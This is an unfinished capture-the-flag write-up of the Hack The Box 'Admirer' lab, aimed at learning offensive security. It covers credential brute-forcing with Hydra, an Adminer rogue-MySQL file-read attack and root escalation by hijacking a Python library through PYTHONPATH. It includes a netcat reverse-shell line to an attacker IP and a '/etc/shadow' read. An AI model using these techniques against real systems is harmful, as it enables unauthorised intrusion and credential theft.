# HTB - Admirer

## Overview


Short description to include any strange things to be dealt with

## Useful Skills and Tools

#### Useful thing 1

* description with generic example

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.187`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
zweilos@kali:~/htb/admirer$ nmap -p- -sCV -oA admirer 10.10.10.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 14:20 EDT
Nmap scan report for 10.10.10.187
Host is up (0.057s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)                                      
80/tcp open  http    Apache httpd 2.4.25 ((Debian))                                                   
| http-robots.txt: 1 disallowed entry                                                                 
|_/admin-dir                                                                                          
|_http-server-header: Apache/2.4.25 (Debian)                                                          
|_http-title: Admirer                                                                                  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                        
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .        
Nmap done: 1 IP address (1 host up) scanned in 51.54 seconds
```

ports 21, 22, 80 open

ftp did not allow anonymous access

```text
zweilos@kali:~/htb/admirer$ ftp 10.10.10.187                                                      
Connected to 10.10.10.187.                                                                           
220 (vsFTPd 3.0.3)                                                                                   
Name (10.10.10.187:zweilos): anonymous                                                               
530 Permission denied.                                                                               
Login failed.
```

port 80 hosts a website.  


checked robots.txt



potential username `waldo`. in robots.txt, also a folder `admin-dir`.  



Using Dirbuster on this directory led me to a few files. `contacts.txt` and `credentials.txt`. 

```text
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

credentials.txt

```text
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

It looks like someone is a Big Bang Theory fan...

## Initial Foothold

Both files contained usernames and passwords, which I added to separate lists. Next I used hydra to attempt a brute-force attack against SSH to see if any of the credentials worked.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 15:40:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:10/p:3), ~2 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 15:40:38
```

The same credentials for FTP also work for SSH! However, the connection is closed immediately upon logging in.

```text
zweilos@kali:~/htb/admirer$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:zweilos): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```

Using the ftp credentials, I logged into the ftp server and found a few files. I exfiltrated them both to my machine for analysis.



The file `dump.sql` was a dump of the website database. The only useful information was the server version information: `MySQL dump 10.16 Distrib 10.1.41-MariaDB, for debian-linux-gnu (x86_64)` and the database name and table. This information may come in handy later so I made note of it.

* Database: admirerdb
* Table: items \(deleted\)



The Employees3 table had another list of potential usernames and email addresses.

The compressed tar file contained a backup of the website's back-end code, including a very interesting php file called `admin_tasks.php` in the `/html/utility-scripts/` folder. 



It looked like a nice little backdoor that the admin had left for me called the "Admin Tasks Web Interface \(v0.01 beta\)". 



in the same folder was `db_admin.php` which contained another set of credentials, this time for the user `waldo` who I had seen in the `robots.txt`. 



There was also another password for `waldo` in the `index.php` file. 

```text
User-agent: *

# This folder contains personal stuff, so no one (not even robots!) should see it - waldo
Disallow: /w4ld0s_s3cr3t_d1r
```

In the `robots.txt` in this backup, the disallowed folder was called `/w4ld0s_s3cr3t_d1r/`.  This folder contained the files `contacts.txt` and `credentials.txt` which appeared at first to be the same as before.

```text
[Bank Account]
waldo.11
Ezy]m27}OREc$

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

 The `credentials.txt` had most of the same information as before, but `waldo` seemed to have left his bank account password in this one.  Despite finding a couple more passwords, none of these worked for logging into SSH for any user.



I navigated to `http://10.10.10.187/utility-scripts/admin_tasks.php` which brought me to a website for running administrative tasks on the server.  



I didn't find much useful other than the fact that the page was running in the context of the `www-data` user. 



Trying to run the disabled scripts gave the message `Insufficient privileges to perform the selected operation.`



After I checked back on my dirbuster check of the `/utility-scripts/` folder, I noticed it had found a new page `adminer.php` where I found an adminer database management portal. 



I noticed the version was 4.6.2, though the page said right next to it that there was a version 4.7.7 available to download. A search for adminer 4.6.2 exploit brought me to [https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability). This led to [https://sansec.io/research/sites-hacked-via-mysql-protocal-flaw](https://sansec.io/research/sites-hacked-via-mysql-protocal-flaw), which linked to an malicious MySQL exploit on GitHub. [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) [https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)

have to set up a local mysql database [https://www.microfocus.com/documentation/idol/IDOL\_12\_0/MediaServer/Guides/html/English/Content/Getting\_Started/Configure/\_TRN\_Set\_up\_MySQL\_Linux.htm](https://www.microfocus.com/documentation/idol/IDOL_12_0/MediaServer/Guides/html/English/Content/Getting_Started/Configure/_TRN_Set_up_MySQL_Linux.htm)

bind-address = 0.0.0.0

## Road to User

### Further enumeration

[https://www.liquidweb.com/kb/create-a-mysql-user-on-linux-via-command-line/](https://www.liquidweb.com/kb/create-a-mysql-user-on-linux-via-command-line/) [https://www.liquidweb.com/kb/grant-permissions-to-a-mysql-user-on-linux-via-command-line/](https://www.liquidweb.com/kb/grant-permissions-to-a-mysql-user-on-linux-via-command-line/)

```text
zweilos@kali:/etc/mysql/conf.d$ service mysql start
zweilos@kali:/etc/mysql/conf.d$ sudo su -
root@kali:~# mysql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 52
Server version: 10.3.23-MariaDB-1 Debian buildd-unstable

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> create database admirer
    -> CHARACTER SET utf8 COLLATE utf8_unicode_ci;
Query OK, 1 row affected (0.001 sec)

MariaDB [(none)]> show databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| admirer            |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.000 sec)

MariaDB [(none)]> create user 'test' identified by 'test';
Query OK, 0 rows affected (0.000 sec)
MariaDB [(none)]> grant all on *.* to 'test';
Query OK, 0 rows affected (0.000 sec)
MariaDB [(none)]> commit;
Query OK, 0 rows affected (0.000 sec)
MariaDB [(none)]> use admirer
Database changed
MariaDB [admirer]> create table test(users varchar(255));
Query OK, 0 rows affected (0.005 sec)
MariaDB [admirer]> commit;
Query OK, 0 rows affected (0.000 sec)
MariaDB [admirer]> exit
Bye
root@kalimaa:~# exit
logout
```

Next I had to set the binding for the server to port 0.0.0.0 so that the external service could connect to it by my IP. The default is 127.0.0.1 which is localhost only.

```text
zweilos@kali:/etc/mysql/mariadb.conf.d$ ls
50-client.cnf  50-mysql-clients.cnf  50-mysqld_safe.cnf  50-server.cnf
zweilos@kali:/etc/mysql/mariadb.conf.d$ sudo vim 50-server.cnf
zweilos@kali:/etc/mysql/conf.d$ service mysql stop
zweilos@kali:/etc/mysql/conf.d$ service mysql start
```

After changing the server `bind-address` setting to `0.0.0.0` I had to restart the `mysql` service for it to take effect. AFter that I was able to login to my database in the adminer portal.


### Finding user creds

[https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)

```text
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE admirer.test
FIELDS TERMINATED BY "\n"
```


To test for the local file inclusion vulnerability I first tried to get `/etc/passwd` but was denied access to that directory. Since I was fairly sure that this was still only running in the context of `www-data` I decided to try to get a file I knew I could access: `index.php`.



I wasn't even sure that this was going to work, but to my surprise it retrieved the file and added it to my database.



much to my surprise...there was yet again another password contained in this file. Before trying to download any more files I decided to try to log in with this new password.

```text
zweilos@kali:~/htb/admirer$ hydra -L users -P passwords 10.10.10.187 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 22:49:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:11/p:7), ~5 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 22:50:00
```

It looked like I had finally found a usable password for `waldo`!

### User.txt

```text
zweilos@kali:~/htb/admirer$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3

waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
e9d47e5a8ef5972c07c9a8adb1a2af9a
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as user `waldo`

```bash
waldo@admirer:~$ id && hostname
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
admirer
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

hmm I wonder what this script does, and what the group `admins` can access.

inside the script it references a few other files

* `/opt/scripts/backup.py`
* `/srv/ftp/dump.sql` - this is the one we found through the ftp server I think
* `/var/backups/dump.sql`

was able to run the script as root with `sudo /opt/scripts/admin_tasks.sh` and then dump the sql database

```bash
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

the sql server database backup didn't have any interesting information in it. The file `/opt/scripts/backup.py` contained:

```python
!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

```text
waldo@admirer:/home$ ls -la
total 36
drwxr-xr-x  9 root       root       4096 Dec  2  2019 .
drwxr-xr-x 22 root       root       4096 Apr 16 13:30 ..
drwxr-xr-x  2 amy        amy        4096 Dec  2  2019 amy
drwxr-xr-x  2 bernadette bernadette 4096 Dec  2  2019 bernadette
drwxr-xr-x  2 howard     howard     4096 Dec  2  2019 howard
drwxr-xr-x  2 leonard    leonard    4096 Dec  2  2019 leonard
drwxr-xr-x  2 penny      penny      4096 Dec  2  2019 penny
drwxr-xr-x  2 rajesh     rajesh     4096 Dec  2  2019 rajesh
drwxr-x---  3 waldo      waldo      4096 Apr 29 11:18 waldo
```

### Getting a shell

I had an idea that since this script was calling another python script as root that maybe I could get it to read a file of my choice, however all of the files referenced in the python script has absolute paths so no no hijacking seemed possible there. I did a search for `sudo setenv python` since I saw in my `sudo -l` output that the word `SETENV` was listed in front of the bash script I could run. In the search results was a very interesting article that talked about hijacking python library imports

[https://stackoverflow.com/questions/7969540/pythonpath-not-working-for-sudo-on-gnu-linux-works-for-root](https://stackoverflow.com/questions/7969540/pythonpath-not-working-for-sudo-on-gnu-linux-works-for-root) [https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

> SCENARIO 3: Redirecting Python Library Search through PYTHONPATH Environment Variable
>
> The PYTHONPATH environment variable indicates a directory \(or directories\), where Python can search for modules to import.
>
> It can be abused if the user got privileges to set or modify that variable, usually through a script that can run with sudo permissions and got the SETENV tag set into /etc/sudoers file.

This sounded exactly like the situation I had found.

```python
import os

def make_archive(a, b, c):
    os.system('/bin/bash')
    os.system('echo I am g`whoami`')
```

```text
waldo@admirer:~$ vi shutil.py 
waldo@admirer:~$ nano shutil.py
waldo@admirer:~$ sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:~$ Traceback (most recent call last):
  File "/opt/scripts/backup.py", line 3, in <module>
    from shutil import make_archive
ImportError: cannot import name 'make_archive'
whoami
waldo
waldo@admirer:~$ nano shutil.py
waldo@admirer:~$ sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:~$ Traceback (most recent call last):
  File "/opt/scripts/backup.py", line 12, in <module>
    make_archive(dst, 'gztar', src)
TypeError: make_archive() takes 0 positional arguments but 3 were given
whoami
waldo
waldo@admirer:~$ nano shutil.py
waldo@admirer:~$ sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:~$ I am groot
```

After trial and error, I was able to get my library to be loaded, though I did not get a shell like I expected. However, I could see that the output of the `whoami` command did appear, so I had proof that I could run commands as root. I got an error when trying to exploit this with version one of my evil python library, but that error also confirmed that I was making progress. It told me that my "make\_archive\(\)" function takes in 0 positional arguments but the script that was calling it was feeding it three.

```python
import os

def make_archive(a, b, c):
    os.system('/bin/bash')
    os.system('echo I am g`whoami`'')
    os.system('nc 10.10.15.57 12345 -e /bin/bash')
```

I modified my function to take 3 arguments, and also send me a reverse shell, and then it worked just fine. I didn't expect the version of `nc` that was installed to have `-e` capability, but I was happy it did!

While I was troubleshooting my python module, I noticed my output stopped suddenly. I remembered the cron jobs I had seen earlier, and realized that it had probably deleted my script...

`os.system('cat /etc/shadow')` dont put this in writeup

```text
waldo@admirer:/dev/shm$ nano shutil.py 
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
